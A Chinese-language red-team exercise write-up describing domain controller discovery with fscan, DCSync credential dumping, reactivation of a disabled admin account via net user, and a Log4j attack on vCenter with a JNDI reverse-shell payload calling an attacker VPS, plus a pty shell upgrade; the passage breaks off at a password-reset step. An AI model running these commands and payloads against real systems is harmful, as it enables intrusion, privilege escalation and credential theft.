禅道![](https://gitee.com/fuli009/images/raw/master/public/20220926092122.png)

  

 **域控** **1、通过fscan扫描的时候可以检索AD关键字发现域控**

  *   *   *   *   *   *   * 

    
    
     [*]192.168.10.38 #非真实域控ip     [->]D1-Prod-AD-P01     [->]192.168.10.38    
    [*]192.168.10.20 #非真实域控ip     [->]AD     [->]192.168.10.20

 **2、域内主机 DNS 一般就是域控地址**

接着可以通过该机器是否开放53和389端口进行进一步确认  
  

这次攻防演练的其中一个目标，通过密码复用爆破成功的某台机器里，刚好存在着域管进程，提权到system权限后注入到域管进程，通过Dcsync成功获取域管密码的hash值，其中一个被禁用的账户刚好可以通过cmd5解出，解出明文密码并激活账户，成功登录两台域控机器，除此以外还可以尝试域漏洞、NTLM中继等

  *   *   *   * 

    
    
    net group "domain admins" /domain  dcsync domain xxxx  shell net user xxxx  shell net user xxxx /active:yes /domain

![](https://gitee.com/fuli009/images/raw/master/public/20220926092123.png)![](https://gitee.com/fuli009/images/raw/master/public/20220926092125.png)

  

 **Vcenter** 在扫描的过程中发现几台Vcenter，Vcenter常规有三种打法，分别是：

  * 

    
    
    CVE-2021-22005-rce、CVE-2021-21972-rce和log4j

前两个测试没成功，log4j通过dnslog探测漏洞存在，vcenter的漏洞触发点在xff头部  

  *   *   * 

    
    
    java -jar JNDIExploit-1.3-SNAPSHOT.jar -l 1389 -p 8889 -i 0.0.0.0  nc -lvp 9000  ${jndi:ldap://VPSIP:1389/Deserialization/CommonsBeanutils1/ReverseShell/VPSIP/9000}

![](https://gitee.com/fuli009/images/raw/master/public/20220926092127.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220926092128.png)

  

但一般打完是非交互式shell，没有回显，这里使用命令切换为交互式shell

  * 

    
    
    python -c 'import pty;pty.spawn('/bin/bash')'

重置密码  

  * 
